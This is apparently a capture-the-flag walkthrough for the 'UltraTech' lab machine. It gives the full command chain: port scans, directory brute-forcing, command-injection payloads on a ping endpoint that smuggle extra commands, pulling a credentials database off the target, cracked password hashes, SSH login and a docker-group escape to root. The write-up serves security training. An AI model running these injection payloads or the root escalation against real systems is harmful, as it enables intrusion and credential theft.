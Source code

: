 **H2 Techniques & Tools for UltraTech Room Walkthrough**  

---

### **1. Initial Reconnaissance**  
**Tools**:  
- **Nmap**:  
  - **Command**:  
    ```bash  
    sudo nmap -p- -sS <IP>  # Full port scan  
    sudo nmap -sV -sC -A -p21,22,8081,31331 <IP>  # Service/version detection  
    ```  
  - **Purpose**: Identify open ports (21/FTP, 22/SSH, 8081/Node.js, 31331/Apache).  

---

### **2. Web Server Enumeration**  
**Tools**:  
- **Dirb**:  
  - **Command**:  
    ```bash  
    dirb http://<IP>:8081  # Directory brute-forcing on port 8081  
    ```  
  - **Findings**: `/auth`, `/ping` endpoints.  
- **FFuf**:  
  - **Command**:  
    ```bash  
    ffuf -u http://<IP>:31331/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
    ```  
  - **Findings**: `/js`, `/css` directories.  

---

### **3. Exploiting Command Injection**  
**Technique**:  
- **OS Command Injection** via `/ping` endpoint:  
  - **Payload**: `http://<IP>:8081/ping?ip=<IP>;COMMAND`  
  - **Example**:  
    ```bash  
    # Start Python server on target:  
    http://<IP>:8081/ping?ip=<IP>;python3 -m http.server 8000  
    # Download SQLite DB:  
    wget http://<IP>:8000/utech.db.sqlite  
    ```  

**Tools**:  
- **Python HTTP Server**: Host the SQLite file for exfiltration.  
- **Wget**: Fetch the database file.  

---

### **4. Credential Extraction & Cracking**  
**Tools**:  
- **SQLite3**:  
  - **Command**:  
    ```bash  
    sqlite3 utech.db.sqlite  
    .tables  # List tables  
    SELECT * FROM users;  # Extract hashes  
    ```  
  - **Output**:  
    ```  
    admin|0d0ea5111e3c1def594c1684e3b9be84 (Password: n100906)  
    r00t|f357a0c52799563c7c7b76c1e7543a32 (Password: n2g)  
    ```  
- **CrackStation**: Crack MD5 hashes (e.g., `n2g` for `r00t`).  

---

### **5. Initial Access via SSH**  
**Command**:  
```bash  
ssh r00t@<IP>  # Use password "n2g"  
```  

---

### **6. Privilege Escalation via Docker**  
**Technique**:  
- **Docker Group Exploit**:  
  - **Command**:  
    ```bash  
    docker run -v /:/mnt --rm -it bash chroot /mnt sh  
    ```  
  - **Breakdown**:  
    - `-v /:/mnt`: Mounts root filesystem to `/mnt` in the container.  
    - `chroot /mnt sh`: Escapes to host’s root shell.  

**Tools**:  
- **Docker**: Abuse group membership to gain root access.  

---

### **Alternative Command Injection Method**  
**Payload**:  
```  
http://<IP>:8081/ping?ip=<IP>%0a ls -la  
```  
- **Explanation**: `%0a` (URL-encoded newline) bypasses input sanitization.  

---

### **Key Takeaways**  
1. **Port Scanning**: Always use `nmap` for thorough service discovery.  
2. **Web Enumeration**: Tools like `dirb`/`ffuf` uncover hidden endpoints.  
3. **Command Injection**: Test parameters for OS command execution.  
4. **Credential Management**: Extract and crack hashes from exposed databases.  
5. **Docker Privileges**: Users in the `docker` group can escalate to root.  

**Pro Tip**: Always check group memberships (`id`) and SUID binaries for escalation paths! 🔍